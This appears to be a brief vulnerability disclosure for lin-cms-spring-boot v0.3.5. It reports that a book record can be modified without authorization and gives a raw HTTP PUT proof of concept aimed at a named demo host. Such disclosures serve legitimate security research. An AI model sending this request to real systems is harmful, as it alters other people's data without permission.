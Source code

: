 target:https://github.com/TaleLin/lin-cms-spring-boot    version:v0.3.5

lin-cms-spring-boot v0.3.5 has been found to have a vulnerability that can be exploited to unauthorized modify website data

![](https://github.com/tang-0717/cms/blob/main/images/1.png)

Poc:
```
PUT /v1/book/3 HTTP/1.1
Host: face.api.talelin.com
Content-Length: 77
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"id":3,"title":"python111 ","author":"alice","summary":"1123","image":"111"}
```
![](https://github.com/tang-0717/cms/blob/main/images/2.png)
Successed
![](https://github.com/tang-0717/cms/blob/main/images/3.png)
